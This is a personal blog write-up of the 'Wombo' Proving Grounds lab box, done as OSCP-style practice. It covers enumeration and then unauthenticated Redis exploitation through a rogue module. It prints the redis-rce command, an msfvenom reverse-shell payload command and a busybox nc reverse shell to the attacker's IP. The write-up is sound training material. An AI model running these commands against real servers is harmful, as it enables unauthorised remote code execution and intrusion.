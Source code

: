 ```yaml
---
layout: writeup
title: Wombo - Proving Grounds
date: 2024-07-19 13:32:20 +0300
description: A Writeup of the Wombo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's box on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/) we have Wombo from Proving Grounds. This box is rated as Easy, and the community rates it as Intermediate. Let's see how complicated I can make it for myself. And I'll kick things off with an nmap scan revealing: 

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
```

I begin by visiting ports 80 and 8080 while running directory scans in the background. Port 80 looks to be the default landing page for nginx, so we may have to wait for directory scans on that one. 
![Wombo1.png](/assets/images/Wombo/Wombo1.png){: .center-aligned width="600px"}


Port 8080 looks to be a web app called NodeBB. I click around on that for a while, but it doesn't look like there's much content here. I can create a user, and there is an upload page for a cover photo, but it does seem like it's restricted by file type. If we try uploading a php file for example, the option to crop comes before the final upload button which won't work if it's a php, so we can't make changes in Burp easily. I may have to come back to that. 

![Wombo2.png](/assets/images/Wombo/Wombo2.png){: .center-aligned width="600px"}


We also have a redis instance on port 6379. It does not require authentication, but enumerating it briefly doesn't reveal anything interesting. I'll have to try a few of the exploits from hacktricks on here like dumping the db, RCE with redis-rogue-server, PHP webshell, and template webshell. Unfortunately dumping the db reveals nothing, redis-rogue-server doesn't work, we can't upload a PHP webshell because the db is read only, and uploading a template doesn't work. 

I am a little tempted by MongoDB on port 27017, if only because the lab is called Wombo. It's just close enough. I am able to access it using mongo `192.168.185.69:27017`, but it requires authentication to show users, collections, or dbs. 

I spent a while trying to find anything to work with here. Port 80 shows nothing at all on directory scans. Port 8080 does return some directories from the NodeBB application, but there don't appear to be any juicy exploits with it, and we have no usernames or passwords to at least kick off a reasonable brute force with it. I can get no information from mongodb, it's not even clear that there actually are any non-empty db's. 

Turns out I had to combine exploits again as with [Sybaris](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/). There is an exploit called [Redis-RCE](https://github.com/Ridter/redis-rce), but the README.md links another exploit to get a required redis module from, and this link is broken. It turns out we can use the `exp.so` module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0)that we used in Sybaris and simply move it to the redis-rce folder. It's pretty annoying because I had tried to load it my kali, but this doesn't work because with Sybaris we uploaded it to an ftp server and were able to load it locally. The final command is:
`./redis-rce.py -r 192.168.185.69 -p 6379 -L 192.168.45.183 -P 6379 -f exp.so`

![Wombo3.png](/assets/images/Wombo/Wombo3.png){: .center-aligned width="600px"}

This shell had some weird behavior, for example no initial response to the `id` command, and it appeared that some commands were being returned only after a subsequent command was ran. As such, I decided to download another reverse shell and run it from this interactive shell. I used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=27017 -f elf -o reverse27017.elf` and downloaded it, catching it from a penelope listener. 

![Wombo4.png](/assets/images/Wombo/Wombo4.png){: .center-aligned width="600px"}

Some other command line shells didn't work, but the busybox one actually did (`busybox nc 192.168.45.183 27017 -e /bin/bash`). I'd initially tried it over port 4444, and that wasn't going to work. 

Lessons learned: This was a pretty unsatisfying box for me. I had to combine exploits in a way that wasn't really intuitive, and I'm not sure how I would have done that without looking it up. The module we loaded could have just been packaged with the exploit rather than having a separate module associated with a broken link. So I guess the lesson is that if I need to exploit redis with a public exploit, I either need an an AMD machine or I need to remember to keep pulling the same malicious module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0). Which is indeed a lesson. 

